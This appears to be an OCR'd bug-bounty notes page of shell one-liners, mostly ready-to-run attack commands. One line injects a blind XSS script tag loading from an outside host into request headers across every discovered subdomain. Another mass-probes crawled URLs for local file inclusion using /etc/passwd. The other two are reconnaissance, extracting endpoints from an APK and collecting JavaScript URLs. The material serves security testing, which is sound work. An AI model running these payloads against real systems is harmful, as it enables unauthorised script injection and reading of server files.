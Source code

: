 Daily Notes : Day 53 
One liners - Part 2 

1: Blind XSS In X-Forwarded-For Header
subfinder -d http://target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"

2: Endpoints, by apks
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"

3: Local File Inclusion
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

4: search javascript file
gau -subs DOMAIN |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt

Ref: https://github.com/twseptian/oneliner-bugbounty